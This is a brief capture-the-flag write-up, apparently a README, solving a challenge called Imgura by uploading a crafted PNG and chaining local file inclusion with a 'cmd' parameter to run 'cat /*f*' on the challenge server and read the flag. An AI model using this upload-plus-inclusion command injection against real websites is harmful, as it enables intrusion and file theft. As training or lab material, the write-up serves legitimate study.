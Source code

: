 # Imgura exploit step by step
## 1. Create exploit png file
```
python3 solve.py
```
## 2. Upload  file to Imgura website
Upload `exploit.png.pnp` file generated from the last step to the Imgura website.

Then, remember the uploaded file name listed in the URL.
e.g. `b0a34d73_exploit.png`
## 3. Command Injection using LCI in the website
Enter URL:
`https://imgura.chal.h4ck3r.quest/dev_test_page/?page=images/b0a34d73_exploit.png&cmd=cat /*f*`
to inject command and see the **FLAG** in the last line of the page.

> FLAG{ImgurAAAAAA}